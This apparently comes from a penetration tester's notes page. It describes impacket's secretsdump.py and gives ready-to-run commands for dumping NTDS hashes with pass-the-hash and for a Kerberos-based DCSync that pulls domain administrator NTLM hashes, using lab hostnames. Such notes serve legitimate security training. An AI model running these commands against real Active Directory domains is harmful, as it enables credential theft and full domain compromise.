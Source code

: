 ```yaml
---
title: secretsdump.py - A module from impacket
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - ldap
  - linux
---
```

# secretsdump.py


 Performs various techniques to dump hashes from the remote machine without executing any agent there.  For SAM and LSA Secrets (including cached creds) we try to read as much as we can from the registry and then we save the hives in the target system  (%SYSTEMROOT%\\Temp dir) and read the rest of the data from there.

https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py

```
# Dumping NTDS with SecretsDump
secretsdump.py inlanefreight/administrator@192.168.195.204 -hashes ad3b435b51404eeaad3b435b51404ee:e4axxxxxxxxxxxxxxxx1c88c2e94cba2 -just-dc-ntlm

# Use this TGT with secretsdump.py to perform a DCSYnc and retrieve one or all of the NTLM password hashes for the domain.
secretsdump.py -just-dc-user $domain/administrator -k -no-pass "$hostName"@$hostName.$domain
# Example:
# secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

